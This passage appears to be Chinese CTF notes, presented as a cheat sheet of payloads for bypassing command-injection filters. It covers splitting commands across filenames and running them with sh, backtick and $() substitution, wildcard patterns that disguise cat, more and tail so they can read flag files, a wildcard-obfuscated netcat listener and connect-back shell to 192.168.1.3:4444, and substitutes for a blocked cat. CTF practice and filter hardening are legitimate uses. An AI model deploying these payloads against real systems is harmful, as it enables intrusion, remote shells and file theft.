 然后使用ls -t > s

s中文件内容就是

s
ca\
t \
fl\
ag\

之后使用sh s，即可执行cat flag

#### 命令嵌套

    echo "result:`whoami`"
    echo "result:$(uname -a)"
    
#### 通配符绕过

/???会去寻找 / 目录下的三个字符长度的文件，正常情况下会寻找到/bin，然后/?[a][t]会优先匹配到/bin/cat,就成功调用了cat命令，然后后面可以使用正常的通配符匹配所需读的文件，如flag.txt文件名长度为8，使用8个?’’，此命令就会读取所有长度为8的文件。

    /???/?[a][t] ?''?''?''?''?''?''?''?''
    
同理，我们也可以匹配/bin下的其他命令，如more，less，vi，tail等命令来查看文件，或者执行其他命令。

    /???/[m][o]?[e] ?''?''?''?''?''?''?''?''
    /???/[t]?[i][l] ?''?''?''?''?''?''?''?''
    
甚至开启一个shell

    /???/[n]?[t]??[t] -lvp 4444
    /???/[n]?[t]??[t] 192.168.1.3 4444
    
#### 读文件绕过

    (1)more:一页一页的显示档案内容
    (2)less:与 more 类似，但是比 more 更好的是，他可以[pg dn][pg up]翻页
    (3)head:查看头几行
    (4)tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
    (5)tail:查看尾几行
    (6)nl：显示的时候，顺便输出行号
    (7)od:以二进制的方式读取档案内容
    (8)vi:一种编辑器，这个也可以查看
    (9)vim:一种编辑器，这个也可以查看
    (10)sort:可以查看
    (11)uniq:可以查看
    (12)file -f:报错出具体内容